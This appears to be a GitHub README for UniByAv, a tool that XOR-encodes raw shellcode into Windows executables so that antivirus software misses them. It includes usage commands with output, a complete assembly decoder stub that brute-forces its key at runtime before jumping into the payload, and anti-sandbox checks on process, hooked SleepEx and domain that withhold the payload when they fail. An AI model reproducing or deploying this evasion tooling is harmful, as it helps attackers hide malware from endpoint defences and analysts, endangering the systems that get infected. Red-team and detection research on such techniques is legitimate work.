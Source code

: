 # UniByAv
UniByAv is a simple obfuscator that take raw shellcode and generate executable that are Anti-Virus friendly.

The obfuscation routine is purely writtend in assembly to remain pretty short and efficient. In a nutshell the application generate a 32 bits xor key and brute force the key at run time then perform the decryption of the actually shellcode.

I'm going to update the code over the time to also support some of the evasion technique that I was using.

# Usage
```
$ python UniByAv4.1.py shellcode test.exe /cygdrive/c/Program\ Files\ \(x86\)/CodeBlocks/MinGW/bin/
UniByAv4.1 Shellcode encoder tool / Mr.Un1k0d3r RingZer0 Team 2014
Currently running under (cygwin) LINUX switch is set to 0
Self decoding payload written in assembly

[+]     Generating xoring key
[+]     Xoring key is set to 0x150014cc
[+]     Original shellcode size is (13) bytes adding (3) bytes to align it
[+]     Magic key is set to \x49\x62\x4d\x6b
[+]     Payload + decoder shellcode length is now (134) bytes
[+]     Generating the final c file
[+]     Generating random charset array for kernel32 and SetProcessDEPPolicy
[+]     Generating int array for "kernel32.dll". Array size is: 12
[+]     Generating int array for "SetProcessDEPPolicy". Array size is: 19
[+]     Compiling the final executable
[+]     /cygdrive/c/Users/Mr.Un1k0d3r/Desktop/output/test.exe has been created
[+]     Generation completed
```

![image](https://user-images.githubusercontent.com/4238766/29378637-d3e9c4e8-828d-11e7-9ce2-83e18a1ee931.png)

Setting the gccpath to none will only generate the C file
```
$ python UniByAv4.1.py SHELLCODE malicious.exe none configs/process-evasion.json
UniByAv4.1 Shellcode encoder tool / Mr.Un1k0d3r RingZer0 Team 2014
Currently running under (cygwin) LINUX switch is set to 0
Self decoding payload written in assembly


[+]     *** Loading process evasion module
[+]     Generating xoring key
[+]     Xoring key is set to 0x1e1be916
[+]     Original shellcode size is (5) bytes adding (3) bytes to align it
[+]     Magic key is set to \x52\x42\x4e\x78
[+]     Payload + decoder shellcode length is now (66) bytes
[+]     Generating the final c file
[+]     Generating random charset array for kernel32 and SetProcessDEPPolicy
[+]     Generating int array for "kernel32.dll". Array size is: 12
[+]     Generating int array for "SetProcessDEPPolicy". Array size is: 19
[+]     /cygdrive/c/Users/Mr.Un1k0d3r/Desktop/UniByAv/output/malicious.exe.c has been created
[+]     Generation completed
```

# Evasion technique 

Predefined configuation file can be found in configs folder.

# The actual decoder

This tool rely on a simple assembly stub to decode the encoded shellcode. As you can see the key is unknown and it get brute forced at runtime. Since the loop is writting in assembly doing millions of rounds is fairly fast on a modern system.

```
Decoder assembly:
   0:   eb 2f                   jmp    31 
   2:   58                      pop    eax
   3:   31 c9                   xor    ecx,ecx
   5:   89 cb                   mov    ebx,ecx
   7:   6a 04                   push   0x4
   9:   5a                      pop    edx
   a:   43                      inc    ebx
   b:   ff 30                   push   DWORD PTR [eax]
   d:   59                      pop    ecx
   e:   0f c9                   bswap  ecx
  10:   31 d9                   xor    ecx,ebx
  12:   81 f9 41 75 49 48       cmp    ecx,[MAGIC]
  18:   75 f0                   jne    a 
  1a:   0f cb                   bswap  ebx
  1c:   31 c9                   xor    ecx,ecx
  1e:   81 c1 05 00 00 00       add    ecx,[NUMBER_OF_CHUNK]
  24:   01 d0                   add    eax,edx
  26:   31 18                   xor    DWORD PTR [eax],ebx
  28:   e2 fa                   loop   24 
  2a:   2d 14 00 00 00          sub    eax,[FULL_SIZE]
  2f:   ff e0                   jmp    eax
  31:   e8 cc ff ff ff          call   2 
  [OPCODE] 
```

###### process
Check if a specific process is running. If it does not run the binary exit without running the payload.

###### time
Check if SleepEx was hooked. If it return bogus information it exit without running the payload.

###### domain
Check if the current user is part of the defined domain. If it is not the case it exit without running the payload.

# Requirement
On Windows
```
python
MinGW (shipped with CodeBlocks)
```

On Linux
```
python
wine
MinGW
```

# Credit
Mr.Un1k0d3r RingZer0 Team
